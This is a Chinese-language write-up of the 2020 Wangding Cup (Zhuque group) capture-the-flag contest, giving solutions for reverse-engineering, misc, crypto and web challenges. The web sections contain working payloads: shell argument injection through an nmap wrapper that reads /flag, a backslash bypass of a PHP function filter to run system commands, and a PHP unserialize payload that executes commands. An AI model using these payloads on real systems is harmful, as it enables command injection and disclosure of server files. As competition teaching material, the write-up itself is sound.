

[TOC]

* TOC
{:toc}


# 2020_网鼎杯朱雀组writeup

https://pan.baidu.com/s/19wKjwIqa-w-o-Wel3jpw_A 提取码: ewpy

## reverse 0x1 go

本题关键就是发现base64加密表。

1.该题是用go语言编写，通过解密该题的key得到flag


2.修改base64码表(main_encode里用汇编看)，再把输入的key计算base64


3.然后与加密的key做比较，如果正确就会把输入的key当作解密flag的key去自解密


4 修改码表只能得到真正key的前15位，最后一位要脑动想想

key: `nRKKAHzMrQzaqQzKpPHClX`

解码提示长度不对。

5 经过调式发现最后1X没有解密

6 看代码发现会有一个比较加密base64串右边是否有==的操作


7 我们把key的密文最后加上==然后再去解密一次得到正确的key

8 输入key，然后程序就会自动打印出flag


```python
c = 'cbdb2c89f6800e6c93e1c1e541e1a89758f45fd988c6652fa955db2f00290da27' # 加密后的flag
# base64 自定义变化码表
import base64
# 直接用 nRKKAHzMrQzaqQzKpPHClX 解没出来。提示长度不对，补个=号试试。成功了。
cipher = 'nRKKAHzMrQzaqQzKpPHClX=='
my_base64chars = 'XYZFGHI2+/Jhi345jklmEnopuvwqrABCDKL6789abMNWcdefgstOPQRSTUVxyz01'
STD_BASE64CHARS = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
# base64chars = string.ascii_uppercase + string.ascii_lowercase + string.digits + '+/'
cipher = cipher.translate(str.maketrans(my_base64chars, STD_BASE64CHARS))
data = base64.b64decode(cipher)
print(data)
# What_is_go_a_A_H
# 拿回去输入key出flag了。
```

## reverse 0x2 tree
二叉树 https://www.52pojie.cn/thread-1181476-1-1.html

https://blog.csdn.net/weixin_44145820/article/details/106173657

https://blog.csdn.net/yusakul/article/details/106186607

https://blog.csdn.net/qq_40568770/article/details/106185293?fps=1&locationNum=2

https://blog.csdn.net/Breeze_CAT/article/details/106194836

https://blog.csdn.net/szxpck/article/details/106197474

https://www.anquanke.com/post/id/205578#h3-7

https://mp.weixin.qq.com/s/ywprWgbW-8DvoSgxzpwcGw

打开程序找到main函数



进入到chkflag函数，发现其是将输入的flag中的xxx每一个x都换成2进制的形式，每一个4位，然后存在glockflag中


parse函数是将glockflag中的二进制拿出来，0代表左，1代表右，开始遍历叶子节点，如果找到的叶子节点是zvzjyvosgnzkbjjjypjbjdvmsjjyvsjx，就正确


用ida动态运行调试一下，发现root是加载了0X0406530。


root，经调试，在内存中如图所示，全都是左右子树的地址。


每个节点及其路径打印出来 IDA中启动调试后，Shift+F2，选python

```python
a=[]
lujing=[]
def traverse_leaf(pnode):
    if pnode != 0:
        if Dword(pnode + 12) == 0 and Dword(pnode + 16) == 0:
            print(chr(Byte(pnode)))
            print("".join(a))
            lujing.append([chr(Byte(pnode)), "".join(a)])
        a.append('0')
        traverse_leaf(Dword(pnode + 12))
        a.append('1')
        traverse_leaf(Dword(pnode + 16))
    if pnode != 0X0406530:
        a.pop()


traverse_leaf(0X0406530)
print(lujing)
```

>[['y', '0000'], ['b', '00010'], ['q', '00011'], ['g', '0010'], ['f', '0011'], ['j', '010'], ['w', '01100'], ['p', '01101'], ['x', '011100'], ['d', '0111010'], ['i', '0111011'], ['k', '01111'], ['s', '100'], ['z', '1010'], ['n', '1011'], ['c', '11000'], ['t', '110010'], ['e', '110011'], ['h', '1101'], ['o', '11100'], ['l', '1110100'], ['u', '11101010'], ['r', '111010110'], ['a', '111010111'], ['m', '111011'], ['v', '1111']]

然后在开始写脚本，将 zvzjyvosgnzkbjjjypjbjdvmsjjyvsjx 转成路径，然后拼起来，4位4位的分开就是flag中的xxxx

```python
lujing = [['y', '0000'], ['b', '00010'], ['q', '00011'], ['g', '0010'], ['f', '0011'], ['j', '010'], ['w', '01100'], ['p', '01101'], ['x', '011100'], ['d', '0111010'], ['i', '0111011'], ['k', '01111'], ['s', '100'], ['z', '1010'], ['n', '1011'], ['c', '11000'], ['t', '110010'], ['e', '110011'], ['h', '1101'], ['o', '11100'], ['l', '1110100'], ['u', '11101010'], ['r', '111010110'], ['a', '111010111'], ['m', '111011'], ['v', '1111']]
res = "zvzjyvosgnzkbjjjypjbjdvmsjjyvsjx"
flag01 = ""
flagx = ""
for i in res:
    for j in lujing:
        if i in j[0]:
            flag01 += j[1]
print(flag01)
for i in range(0, len(flag01), 4):
    tmp = "%x" % int(flag01[i:i+4], 2)
    flagx += tmp
print(flagx)
```

暴破法
```python
root=0x00406530#根结点地址
secret='zvzjyvosgnzkbjjjypjbjdvmsjjyvsjx'

def encrypt(way):
    a=root
    result=''
    bin_s='{:010b}'.format(way) #这里设成10位二进制高位补0，起初设成8位导致a和r没有出结果
    for each in bin_s:     #模拟parse函数
        if(each=='1'):
            a=idc.Dword(a+12)
            result+='0'
        elif(each=='0'):
            a=idc.Dword(a+16)
            result+='1'
        if(idc.Dword(a)>96 and idc.Dword(a) <=122):
            return result+':'+chr(idc.Dword(a))
    return 0

L=[]
for each in range(1024):    #开爆，奥里给爆就完了
    if(encrypt(each)!=0):
        L.append(encrypt(each))
        
Table=list(set(L))
print(Table)
```

最终打印出flagx是afa41fc8574f12481a849d7f7120f89c

将flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}替换掉，即

flag为flag{afa41fc8-574f-1248-1a84-9d7f7120f89c}

题目链链接：https://pan.baidu.com/s/1RUPL9W2119cJ8TDVf2m-8Q

提取码：sca9

## web 0x1 nmap

[escapeshellarg()+escapeshellcmd()](https://paper.seebug.org/164/)

方法 1.1

127.0.0.1' -iL /flag -oN vege.txt '

即执行 `nmap 127.0.0.1' -iL /flag -oN vege.txt '`

然后访问 http://challenge-xxxxx/vege.txt

方法 1.2

输入' -oN aa.txt '，让后访问/aa.txt


单引号逃逸，源代码中

```php
$host=escapeshellarg($host);   //"'127.0.0.1'\''-iL../../../../flag -o 1'"
$host=escapeshellcmd($host);   //"'127.0.0.1'\\''-il../../../../flag -o 1\'"
```

    
    "nmap '127.0.0.1'\\'' -iL /flag -o 1\'"
    去掉配对的单引号
    "nmap 127.0.0.1 -iL /flag -o 1'"
    好像是这个"nmap 127.0.0.1\ -iL /flag -o 1'"
    输出到 1' 这个文件中

如果没带单引号就会解释为一个字符串，逃逸不了
    
    "nmap '127.0.0.1 -iL /flag -o 1'"

## web 0x2 phpweb

看源码, 能提交func和p, 看value可知func是函数名, p 是参数。

func=file_get_contents&p=index.php看源码。

过滤了常用看system等，通过加\来过, linux下的 \system = system, ca\t = cat

1.先找flag位置

`http://xxx.ichunqiu.com/index.php?func=\system&p=find / -name flag*`

2.看flag内容

`http://xxx.ichunqiu.com/index.php?func=\system&p=cat /tmp/flagoefiu4r93`

### 方法2 反序列化

```php
<?php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

class Test {
    public $func='system';
    public $p='find / -name flag*';
}

echo serialize(new Test());
?>
```
生成payload

> func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:18:"find / -name flag*";}
## misc 0x2 九宫格

根据二维码识别出二进制字符串，一共576位，576位转换成TEXT文本。题目提示的九宫格拼出的数字是245568。利用rabbit解密，对前面的TEXT文本进行解密，解密下方填上245568.即可得到解密flag


```python
from pathlib import Path
from PIL import Image
from pyzbar.pyzbar import decode


f = b''
for i in sorted(Path('.').rglob('*.png'), key=lambda x: x.stem.rjust(5, '0')):
    data = decode(Image.open(i))
    data = data[0].data
    data = b'1' if data == b'one' else b'0'
    f += data
# '010101010011001001000110011100110110010001000111010101100110101101011000001100010011100101101010010101000110100001111000010101110111000101001011011011010101100101010100010110100101000000110001010110000011010001000001011001100111010101000110010010100010111100110111010001100110110001110001010010010100011000110001010010110100100001010001010101000101001000110101010100110011011000110011011110100100111101101011011110010110111101011000001100110011011001101110010110100110110001100001010011110111000100110100010110000011010001101011011011000111011101010010011101110111000101100001'

a = f.decode()
b = bytearray.fromhex(hex(int(a, 2))[2:])
print(b)

# U2FsdGVkX19jThxWqKmYTZP1X4AfuFJ/7FlqIF1KHQTR5S63zOkyoX36nZlaOq4X4klwRwqa
```
key 是 245568。

找个在线的解密一下。

`flag{2c4fdc156fe74836954a05058c5d0382}`


### 方法2

二维码就2种zero和one，将每个图。生成hash值。0的hash值和1的hash值。

## misc 0x4 key_123

解压密码123  然后钥匙图片改高度  锁图片binwalk分出来一个压缩包。
然后就是看钥匙图片上的编码了--差分曼彻斯特
```
295965569a596696995a9aa969996a6a9a6699656569699
96959669566a5655699669aa5656966a566a56656
```
[曼切斯特与差分曼切斯特](https://skysec.top/2017/07/10/曼切斯特与差分曼切斯特/)  ?

差分曼彻斯特编码,先将hex转为二进制，多次尝试后，将二进制最后一位移动到第一位

```python
aaa = "295965569a596696995a9aa969996a6a9a669965656969996959669566a5655699669aa5656966a566a56656"
enc = ""
for x in range(0,len(aaa),2):
    enc+=str(bin(eval("0x"+aaa[x:x+2])))[2:].rjust(8,"0")
# print enc

# 需要注意的是，十六进制转成二进制后需要，每一个都要填充成8位长度，
# 第一个字符的前两位需要从00改成11 (10，01，11，00) 都试一遍，
# 不进行这个操作的话，解出来的第一个字符不在ASCii范围内
# 
tp = ('10','01','11','00')
lst = [x+enc[2:] for x in tp]
print([len(x) for x in lst])
# s = "1110100101011001011001010101011010011010010110010110011010010110100110010101101010011010101010010110100110011001011010100110101010011010011001101001100101100101011001010110100101101001100110010110100101011001011001101001010101100110101001010110010101010110100110010110011010011010101001010110010101101001011001101010010101100110101001010110011001010110"
def decrypt(s):
    r=""
    for i in range(len(s)//2):
        c = s[i*2]
        if c == s[i*2 - 1]:
            r += '1'
        else:
            r += '0'
    txt = bytearray.fromhex(hex(int(r,2))[2:]).decode('latin')
    print(txt)

[decrypt(x) for x in lst]
# print hex(int(r,2))[2:-1].decode('hex')
# Sakura_Love_Strawberry

用 Sakura_Love_Strawberry 来解压得到flag
# flag{061056cc-980c-4214-b163-230e5cd5c78e}
```

## Crypto
### simple

```python
a = 123456
b = 321564 #只需要遍历一下字母

#cipher = 'kgwsmucmuekkwemeeww'
cipher = [10, 6, 22, 18, 12, 20, 2, 12, 20, 4, 10, 10, 22, 4, 12, 4, 4, 22,22]
key = 'abcdefghijklmnopqrstuvwxyz'
for i in range(len(cipher)):
    for j in range(len(key)):
        #print(j)
        if (j*123456+321564)%26 == cipher[i]:
            print(key[j],end='')
            break
```

or

```python
import gmpy2, string
enc = 'kgws{m8u8cm65-ue9k-44k5-8361-we225m76eeww}'
k1 = 123456
k2 = 321564
flag = ''

for i in enc:
    if i in string.ascii_lowercase:
        a = ord(i) - 97
        inv = gmpy2.invert(k1, 13)
        flag += chr(((a-k2)*inv) % 13 + 97)
        print(flag)
    else:
        flag += i
        print(flag)

```

### RUA

解题思路
```python
from gmpy2 import *
import gmpy2
c1=8024667293310019199660855174436055144348010556139300886990767145319919733369837206849070207955417356957254331839203914525519504562595117422955140319552013305532068903324132309109484106720045613714716627620318471048195232209672212970269569790677144450501305289670783572919282909796765124242287108717189750662740283813981242918671472893126494796140877412502365037187659905034193901633516360208987731322599974612602945866477752340080783296268396044532883548423045471565356810753599618810964317690395898263698123505876052304469769153374038403491084285836952034950978098249299597775306141671935146933958644456499200221696
n1=18856599160001833299560082802925753595735945621023660831294740454109973698430284916320395522883536507135735383517926050963512440162483065097256884040938259092582892259657340825971260278387406398529168309426241530551396056450450728728601248269612166083300938497235910244979946020059799495231539400114422748104072550004260736766137354572252872437140063474603268146956570787143010441293268321641092743010805639953103578977668248726500636191043930770036787317928372179939360510179438436665591755940224156131460271763912868322774604558314812111335691108887319827579162188169744014973478052491398688611046800951698773893393
c2=17388575106047489057419896548519877785989670179021521580945768965101106268068805843720622749203590810185213416901978773748832854888898576822477243682874784689127705334243899967896321836688567602323551986980634884700045627950473546069670440078998428940082620044462222475031805594211784370238038168894827559017562364252406425134530719911057780692073760058203345936344269833206906999625580911856011564697811258009937314511410514416706482571471852503756675411177080916350899445106002226392895645443215522671155311715637759618276305217468892076287376401516124640727839779731609203202530346427613422430202271506248285086956
n2=21996468204721630460566169654781925102402634427772676287751800587544894952838038401189546149401344752771866376882226876072201426041697882026653772987648569053238451992877808811034545463363146057879646485465730317977739706776287970278094261290398668538232727000322458605289913900919015380904209692398479885177984131014170652915222062267448446642158394150657058846328033404309210836219241651882903083719822769947131283541299760283547938795574020478852839044803553093825730447126796668238131579735916546235889726257184058908852902241422169929720898025622336508382492878690496154797198800699611812166851455110635853297883
c3=5170826942130658374627267470548549396328896108666717036999395626588154882531377393671593939192779292151584678688653835775920356845071292462816417186595460417761844407911946323815187102170021222644920874070699813549492713967666736815947822200867353461264579419205756500926218294604616696969184793377381622818381733352202456524002876336304465082656612634304327627259494264840838687207529676882041997761204004549052900816658341867989593333356630311753611684503882509990853456022056473296726728969894815574884063807804354952314391764618179147583447848871220103094864884798102542377747761263052887894135796051521881179607
n3=22182114562385985868993176463839749402849876738564142471647983947408274900941377521795379832791801082248237432130658027011388009638587979450937703029168222842849801985646044116463703409531938580410511097238939431284352109949200312466658018635489121157805030775386698514705824737070792739967925773549468095396944503293347398507980924747059180705269064441084577177316227162712249300900490014519213102070911105044792363935553422311683947941027846793608299170467483012199132849683112640658915359398437290872795783350944147546342693285520002760411554647284259473777888584007026980376463757296179071968120796742375210877789


print(gcd(n1,n2))
print(gcd(n1,n3))
print(gcd(n3,n2))

def modinv(a, m):
    return int(gmpy2.invert(gmpy2.mpz(a), gmpy2.mpz(m)))

def chinese_remainder(n, a):
    sum = 0
    prod = reduce(lambda a, b: a * b, n)
    for n_i, a_i in zip(n, a):
        p = prod // n_i
        sum += a_i * modinv(p, n_i) * p
    return int(sum % prod)

nset = [n1,n2,n3]
cset = [c1,c2,c3]

m = chinese_remainder(nset, cset)
for i in range(2,20):
    try:
        print (i,hex(int(gmpy2.iroot(m,i)[0]))[2:-1].decode('hex'))
    except Exception as e:
        pass
```

## 参考

[参考](https://blog.csdn.net/qq_40568770/article/details/106185293)

[2020网鼎杯朱雀组部分Web题wp](https://mp.weixin.qq.com/s/LNtPjFzGoAJJoD1eMUXyJw)

[2020网鼎杯-朱雀组-部分wp](https://mp.weixin.qq.com/s/ywprWgbW-8DvoSgxzpwcGw)

[2020网鼎杯-朱雀组-Crypto、Misc(带视频) ](https://mp.weixin.qq.com/s/XYkgD_5Y0FcgsNqRAb_1Yw)

[2020网鼎杯-朱雀组-Web(带视频)](https://mp.weixin.qq.com/s/rSdoGiCY4tsh5LvVHgZ0Ow)

[2020网鼎杯-朱雀组-Misc、Pwn(带视频)](https://mp.weixin.qq.com/s/I13vmPqrm4wVz5TPI8gwIg)

[2020网鼎杯-朱雀组-key赛题讲解](https://www.bilibili.com/video/BV1DK4y1t7e5)

[2020网鼎杯-朱雀组-think java赛题讲解](https://www.bilibili.com/video/BV1z54y1D7Et)

[2020网鼎杯-朱雀组-simpe赛题讲解](https://www.bilibili.com/video/BV1C54y1D7nN)

[2020网鼎杯-朱雀组-phpweb赛题讲解](https://www.bilibili.com/video/BV18g4y1i7dA)

[2020网鼎杯-朱雀组-九宫格赛题讲解](https://www.bilibili.com/video/BV1hg4y1i7ad)

[2020网鼎杯-朱雀组-云盾赛题讲解](https://www.bilibili.com/video/BV1dg4y1B7aD)

[2020网鼎杯-朱雀组-nmap赛题讲解](https://www.bilibili.com/video/BV1qC4y1p7aE)

[2020网鼎杯-朱雀组-go赛题讲解](https://www.bilibili.com/video/BV1mt4y1C7xz)

[2020网鼎杯-朱雀组-魔法房间赛题讲解](https://www.bilibili.com/video/BV1xt4y1C7FD)

[2020网鼎杯-朱雀组-rua赛题讲解](https://www.bilibili.com/video/BV1Wz4y1d7Mx)

[2020网鼎杯-朱雀组-tree赛题讲解](https://www.bilibili.com/video/BV165411s7MN)
